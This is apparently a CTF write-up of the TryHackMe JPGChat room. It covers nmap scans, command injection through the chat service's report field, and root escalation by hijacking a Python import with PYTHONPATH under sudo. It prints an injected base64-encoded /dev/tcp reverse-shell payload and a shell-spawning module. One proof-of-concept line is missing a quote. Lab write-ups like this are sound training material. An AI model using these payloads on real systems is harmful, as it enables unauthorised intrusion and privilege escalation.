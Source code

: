 ```yaml
---
title: "JPGChat"
date: 2025-03-12
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF JPGChat
categories: [TryHackMe, Easy]
tags: [linux, python]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>JPGChat</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploiting poorly made custom chatting service written in a certain language...</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/jpgchat">https://tryhackme.com/room/jpgchat</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge JPGChat.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.77.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:51 EDT
Nmap scan report for 10.10.77.133
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 29.32 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,3000 10.10.77.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:52 EDT
Nmap scan report for 10.10.77.133
Host is up (0.038s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
|_  256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
3000/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.49 seconds
```
From here I proceeded the analysis by port 3000.

## Port 3000 Analysis

```bash
$ nc 10.10.77.133 3000           
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

A quick search revealed the <a href="https://github.com/Mozzie-jpg/JPChat">GitHub</a> repository, along with the source code. The most important part is the report functionality. In that section, I had control over a variable that is included in a command. The command is then executed by Bash. Before testing on the server, I created a small proof of concept:
```python
import os
report_text = test;whoami; echo test"
os.system("bash -c 'echo %s >> /home/kali/Desktop/report.txt'" % report_text)
```
The payload worked, and I got the output as expected:
```bash
$ python3 test.py
  test
	kali
```

Using the `;` I was able to expand the logic and break out. Since I was able to execute arbitrary commands on the system, I managed to gain a reverse shell using the predefined Penelope payloads:
```bash
$ nc 10.10.77.133 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
test;echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxICYK|base64 -d|bash; echo test
your report:
test
```

With this initial access, I was able to successfully retrieve the user flag:
```bash
wes@ubuntu-xenial:~$ cd /home/wes
wes@ubuntu-xenial:~$ cat user.txt
	JPC{[remove]}
```

## Privilege Escalation vagrant

I continued by running `sudo -l` and received the following output:
```bash
wes@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

The script that is executed with root privileges imports `compare`. Furthermore, the `PYTHONPATH` environment variable wasn't set, allowing me to manipulate the location where Python looks for imports:
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

For an initial proof of concept, I searched for a directory where I had write permissions and set the `PYTHONPATH` to that location:
```bash
wes@ubuntu-xenial:~$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  [...]
  /home/wes
  [...]
wes@ubuntu-xenial:~$ export PYTHONPATH=/home/wes
```

I created a script called `compare.py`, added a print statement, and made it executable. When I ran `test_module.py` with sudo, my own `compare.py` was executed:
```bash
wes@ubuntu-xenial:~$ echo "print(1)" > compare.py
wes@ubuntu-xenial:~$ chmod +x compare.py 
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
1
Traceback (most recent call last):
  File "/opt/development/test_module.py", line 5, in <module>
    print(compare.Str('hello', 'hello', 'hello'))
NameError: name 'compare' is not defined
```

Great! Since I aimed to gain root privileges, I modified `compare.py` to spawn a Bash shell. After running the main script again, I was able to retrieve the root flag:
```bash
wes@ubuntu-xenial:~$ echo "import pty;pty.spawn('bash')" > compare.py
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:~# whoami
root
root@ubuntu-xenial:~# cat /root/root.txt 
JPC{[remove]}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```

solved! :)

